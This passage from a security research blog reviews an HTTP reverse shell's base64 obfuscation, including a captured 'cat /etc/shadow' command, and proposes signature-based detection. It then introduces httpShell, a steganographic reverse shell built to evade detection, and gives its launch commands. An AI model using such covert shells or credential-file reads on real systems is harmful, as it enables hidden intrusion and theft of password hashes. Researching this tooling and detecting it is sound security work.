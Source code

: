 After running it though my handy application, we see the the first request contained ```supersecret$ ``` to which the server responds ```supersecretcat /etc/shadow```. From this it is clear that I configured the application to use 'supersecret' as its password. I will let the reader figure out what last request contains. 

It is hard not to have mixed feelings about the stealth of this technique. The author makes no claims of cryptography, stating that this is merely a proof-of-concept application, and the casual observer is going to think that the data is base64 encoded binary data. The problem arises when we think about methods for automated detection. It would be trivial to write a signature that looks for ```r+V5T8RpSegoDfWjnz``` (which decodes to /etc/shadow) and a handful of other strings that are common in attack scenarios. With a defensive technique such as this there would be very few false positives and a fairly high detection rate. _Note: for this detection technique to be effective you would actually need to have at least three signatures for each malicious string. This is just the nature of b64/uu encoding_ 

All things considered, this is a great tool that made some definite improvements to what was available. 

###0x04 -- httpShell###
Building upon the currently available tools, and attempting to address some of their shortcomings, we at Neohapsis Labs developed another proof-of-concept HTTP reverse shell called httpShell. The intention of this shell was to demonstrate an steganographic technique that we believe can be useful for a variety of applications requiring discretion and stealth. The goal of cryptography is to make sure that one's enemies cannot read or tamper with one's messages. The point of steganography is to make sure that one's enemies don't realize that one is transmitting messages. While previously discussed applications offer a degree of steganography in that they encapsulate their messages in HTTP packets, an in-the-know observer can easily detect, and in some cases reverse, any obfuscation techniques being implemented. The httpShell encodes transmitted data into user-provided dictionaries, hopefully making it indistinguishable from ordinary traffic. The most basic example of this would be to encode the data into valid HTML tags so that actual web pages appear to be transmitted between server (master) and client (slave). The following section will discuss this technique at further length.

####0x04.01 -- Usage####
While the application comes with some dictionaries, it is expected that a user will create his own to better defeat automated detection. Look at the provided example dictionaries for an understanding of how to create your own. Refer to the projects [GitHub](https://github.com/Neohapsis/httpShell) page for a description of how the various options work. The application has some baked in default settings for testing the application on your local machine. The only thing that **needs** to be specified is whether the application will run as server or client. _Note: for the server to run on ports bellow 1024 you will need to run as the root user on *nix_

####0x04.02 -- Demo####
For the purpose of a somewhat realistic demonstration, I have created [client](https://gist.github.com/1541305) and [server](https://gist.github.com/1541313) dictionaries to play with. I run the server(master) with the following options:

{% highlight bash %}
sudo coffee ./httpshell.coffee --host 127.0.0.1 --port 80 --secret supersecret --clientdict ./example_files/example_client_dict2 --serverdict ./example_files/example_server_dict2 server
{% endhighlight %}

and run the client(slave) with the following options
{% highlight bash %}
coffee ./httpshell.coffee --host 127.0.0.1 --port 80 --delay 10000 --secret supersecret --clientdict ./example_files/example_client_dict2 --serverdict ./example_files/example_server_dict2 client 
{% endhighlight %}

